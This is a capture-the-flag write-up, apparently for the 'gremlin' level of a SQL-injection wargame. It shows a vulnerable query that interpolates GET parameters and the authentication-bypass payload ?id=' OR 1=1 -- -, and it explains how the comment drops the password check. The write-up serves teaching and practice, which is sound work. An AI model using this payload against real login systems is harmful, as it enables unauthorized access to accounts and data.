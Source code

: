 ```yaml
---
custom_edit_url: null
sidebar_position: 1
tags: [SQLi]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/18cc31d8-0f98-466a-84f6-3d68bf23ab5f)

We are provided with the SQL query:

```sql
SELECT id FROM prob_gremlin WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

In order to make the result of this query `True`, we can provide the following URI parameter:

```
?id=' OR 1=1 -- -
```

The resultant query then becomes:

```sql
SELECT id FROM prob_gremlin WHERE id='' OR 1=1 -- -' AND pw=''

## Queried part:
SELECT id FROM prob_gremlin WHERE id='' OR 1=1

## Commented part:
AND pw=''
```

Since 1=1 is always true, the result of the `OR` operation will always be `True`.

![2](https://github.com/Kunull/Write-ups/assets/110326359/002d0b4e-53d5-41f0-a173-50f3058c5302)
